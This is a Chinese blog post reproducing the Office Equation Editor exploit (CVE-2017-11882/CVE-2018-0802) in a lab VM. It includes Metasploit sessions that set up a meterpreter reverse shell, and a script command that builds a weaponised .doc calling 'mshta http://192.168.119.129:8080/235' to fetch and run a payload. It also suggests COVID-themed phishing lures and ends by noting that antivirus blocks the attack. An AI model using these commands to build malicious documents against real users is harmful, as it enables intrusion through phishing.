



# 漏洞复现-Office 远程代码执行漏洞 (CVE-2017-11882&CVE-2018-0802) - Sally_Zhang - 博客园

> 原文：[`www.cnblogs.com/sallyzhang/p/13157823.html`](https://www.cnblogs.com/sallyzhang/p/13157823.html)

**漏洞原理**

这两个漏洞本质都是由 Office 默认安装的公式编辑器(EQNEDT32.EXE)引发的栈溢出漏洞(不要问什么是栈溢出，咱也解释不了/(ㄒoㄒ)/~~)

**影响版本**

Office 365

Microsoft Office 2000      

Microsoft Office 2003      

Microsoft Office 2007 Service Pack 3

Microsoft Office 2010 Service Pack 2

Microsoft Office 2013 Service Pack 1

Microsoft Office 2016

**复现环境**

1\. OS 版本：Win7 旗舰版 SP1(虚拟机)，开启防火墙，没有装杀毒软件


2\. Office 版本：Professional Plus 2013 64Bit


3\. Python2.7：跑脚本要用到

**复现过程**

1\. 相关设置

打开 Word，找到菜单：插入-对象，检查新建列表是否有下列选项，没有则无法复现


最开始为了图方便在网上下了个绿色版的 office2010，里面没有这个选项，无法复现，且打开带病毒的 word 时会报这个错：



不需要启用宏，前面说了，这个是公式编辑器引发的漏洞，跟宏没啥关系，我没启用宏：



 2\. 检查是否存在漏洞

下载脚本：[`github.com/Ridter/RTF_11882_0802/`](https://github.com/Ridter/RTF_11882_0802/)

输入下面的命令：

```
python RTF_11882_0802.py -c "cmd.exe /c calc.exe" -o calc.doc
```

双击打开 calc.doc，如果弹出计算器说明存在漏洞：


3\. 漏洞利用

msf 搜了一下，有现成的 EXP


```
msf5 > use exploit/windows/fileformat/office_ms17_11882
msf5 exploit(windows/fileformat/office_ms17_11882) > show options

Module options (exploit/windows/fileformat/office_ms17_11882):                                                                                                

   Name         Current Setting  Required  Description ----         ---------------  --------  ----------- FILENAME     msf.rtf          yes       Filename to save as, or inject                                                                                     
   FOLDER_PATH                   no        Path to file to inject                                                                                             
   SRVHOST 0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0 SRVPORT 8080 yes       The local port to listen on.                                                                                       
   SSL false            no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description ----      ---------------  --------  ----------- EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT 4444 yes       The listen port **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)** Exploit target:

   Id  Name --  ----
   0 Microsoft Office

msf5 exploit(windows/fileformat/office_ms17_11882) > set FILENAME test.doc
FILENAME => test.doc
msf5 exploit(windows/fileformat/office_ms17_11882) > set LHOST 192.168.119.129 LHOST => 192.168.119.129 msf5 exploit(windows/fileformat/office_ms17_11882) > exploit
```

View Code

很遗憾的是 shell 一直弹不过来。。。


网上找了另一个 EXP(参考：[`myzxcg.github.io/20180921.html`](https://myzxcg.github.io/20180921.html))：


```
msf5 exploit(windows/fileformat/office_ms17_11882) > use exploits/windows/smb/PS_shell
msf5 exploit(windows/smb/PS_shell) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/PS_shell) > show options

Module options (exploit/windows/smb/PS_shell):

Name Current Setting Required Description ---- --------------- -------- ----------- SRVHOST 0.0.0.0 yes The local host to listen on. This must be an address on the local machine or 0.0.0.0 SRVPORT 8080 yes The local port to listen on.
SSL false no Negotiate SSL for incoming connections
SSLCert no Path to a custom SSL certificate (default is randomly generated)
URIPATH no The URI to use for this exploit (default is random)

Payload options (windows/meterpreter/reverse_tcp):

Name Current Setting Required Description ---- --------------- -------- ----------- EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port

Exploit target:

Id Name -- ----
0 Automatic

msf5 exploit(windows/smb/PS_shell) > set LHOST 192.168.119.129 LHOST => 192.168.119.129 msf5 exploit(windows/smb/PS_shell) > set LPORT 4445 LPORT => 4445 msf5 exploit(windows/smb/PS_shell) > set URIPATH 235 URIPATH => 235 msf5 exploit(windows/smb/PS_shell) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.119.129:4445 [*] Using URL: http://0.0.0.0:8080/235
[*] Local IP: http://192.168.119.129:8080/235
[*] Server started.
[*] Place the following DDE in an MS document:
mshta.exe "http://192.168.119.129:8080/235" msf5 exploit(windows/smb/PS_shell) > [*] 192.168.119.136 PS_shell - Delivering payload
[*] Sending stage (180291 bytes) to 192.168.119.136 [*] Meterpreter session 1 opened (192.168.119.129:4445 -> 192.168.119.136:49402) at 2020-06-18 05:04:19 -0400
```

View Code

生成病毒文件：

```
python RTF_11882_0802.py -c "mshta http://192.168.119.129:8080/235" -o new.doc
```

new.doc 打开之后就是普通 word 文档的样子，看不出什么异常：



但是打开之后，kali 成功收到反弹 shell，权限为当前登录用户权限（好像个人 windows 登录基本都是 admin 权限 O(∩_∩)O ），即使打开后又关闭了 new.doc，session 依然可用，那关机了 session 还在么？你想多了哈哈哈


 不晓得为啥执行不了 whoami 命令。。。


这个远程代码执行漏洞最关键的一步是在被攻击机器上打开带病毒的 word 文件，所以实际场景中钓鱼比较多，取一个让人有打开欲望的文件名，比如之前通报过的新冠感染诊断，武汉旅行信息搜集表等，如果刚好你的系统装了 office 且没有即时打补丁，恭喜你~

但是钓鱼有一个致命缺陷就是：只要你不点开，我就没办法，哈哈哈~

**拓展学习**

上面的复现过程是在没有装杀毒软件的情况下进行的，接下来在 Win7 虚拟机上装一个某某毒霸，再次打开 new.doc，被检测到了


点击上图的"阻止并关闭"选项后打开 word，kali 就无法接收到反弹 shell 了。所以，记得装杀毒软件(我想最差的杀毒软件对已知漏洞都是会防护的)，不要裸奔~

**本文仅用于技术学习和交流，严禁用于非法用途，否则产生的一切后果自行承担。**  

**如需转载，请注明出处，这是对他人劳动成果的尊重。**